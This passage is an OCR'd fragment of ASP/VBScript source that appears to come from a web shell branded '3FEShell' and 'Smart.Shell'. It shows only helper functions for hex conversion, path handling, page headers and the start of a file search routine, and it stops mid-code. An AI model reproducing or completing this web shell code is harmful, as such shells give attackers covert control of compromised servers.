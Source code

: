     End Sub
End Class
startcode = "&lt;html&gt;&lt;head&gt;R57.Gen.tr&lt;/head&gt;&lt;body&gt;"
endocde = "&lt;/body&gt;&lt;/html&gt;"
onlinehelp = "&lt;font face=""arial"" size=""1""&gt;.:: &lt;a href=""http://3fe.us"" target=""_blank""&gt;ONLINE HELP&lt;/a&gt; ::.&lt;/font&gt;&lt;br&gt;"
Function HexConv(hexVar)
    Dim hxx, hxx_var, multiply          
         IF hexVar &lt;&gt; "" THEN
              hexVar = UCASE(hexVar)
              hexVar = StrReverse(hexVar)
              DIM hx()
              REDIM hx(LEN(hexVar))
              hxx = 0
              hxx_var = 0
              FOR hxx = 1 TO LEN(hexVar)
                   IF multiply = "" THEN multiply = 1
                   hx(hxx) = mid(hexVar,hxx,1)
                   hxx_var = (get_hxno(hx(hxx)) * multiply) + hxx_var
                   multiply = (multiply * 16)
              NEXT
              hexVar = hxx_var
              HexConv = hexVar
         END IF
End Function
cprthtml = "&lt;font face='arial' size='1'&gt;.:: 3FEShell 1.0  ::.&lt;/font&gt;"
Function get_hxno(ghx)
         If ghx = "A" Then
              ghx = 10
         ElseIf ghx = "B" Then
              ghx = 11
         ElseIf ghx = "C" Then
              ghx = 12
         ElseIf ghx = "D" Then
              ghx = 13
         ElseIf ghx = "E" Then
              ghx = 14
         ElseIf ghx = "F" Then
              ghx = 15
         End If
         get_hxno = ghx
End Function
keydec="&lt;font face='arial' size='1'&gt;.:: Smart.Shell 1.0 &copy; BY &lt;a href='mailto:'&gt;P0Uy@_$3r\/3R&lt;/a&gt; - &lt;a href='' target='_blank'&gt;&lt;/a&gt; ::.&lt;/font&gt;"
Function showobj(objpath)
    showobj = Mid(objpath,InstrRev(objpath,"\")+1,Len(objpath))
End Function
Function showobjpath(objpath)
    showobjpath = Left(objpath,InstrRev(objpath,"\"))
End Function
Function checking(a,b)
'    If CStr(Mid(a,95,13)) = CStr(Mid(b,95,13)) Then
'        pagina = Mid(Request.ServerVariables("SCRIPT_NAME"),InstrRev(Request.ServerVariables("SCRIPT_NAME"),"/")+1,Len(Request.ServerVariables("SCRIPT_NAME"))) & "?action=error"
'        Response.Redirect(pagina)
'    End If
End Function
Sub hdr()
    Response.Write startcode
    Response.Write keydec
    Response.Write "&lt;br&gt;"
End Sub
sub araBul(path_,ara_)
    on error resume next